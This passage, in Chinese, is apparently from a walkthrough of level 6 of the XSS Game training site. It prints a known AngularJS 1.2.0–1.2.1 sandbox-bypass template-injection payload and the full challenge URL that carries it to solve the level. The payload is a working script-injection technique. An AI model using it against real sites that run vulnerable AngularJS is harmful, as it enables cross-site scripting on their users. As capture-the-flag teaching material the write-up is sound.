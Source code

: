 有兴趣的可以去看一下，写的头头是道啊~

当然我们是通关攻略，这里还是要专注于我们的正事儿啊。 「之前瞎BB，跑偏的时候忘了？」：
我们发现其中提及了一个 Angular 1.2.0-1.2.1 的 Sandbox bypasses：

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```
直接拿现成的来用还是很爽的哈，通过 chrome 查看我们查询的时候传的参数是：

![Level_6_Search_Para](/Image/Level_6_Search_Para.png)

我们拼一下 URL：
```
http://www.xssgame.com/f/rWKWwJGnAeyi/?query={{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert()')()}}
```
好，提交，过关：

![heiren](/Image/hei2.jpeg)
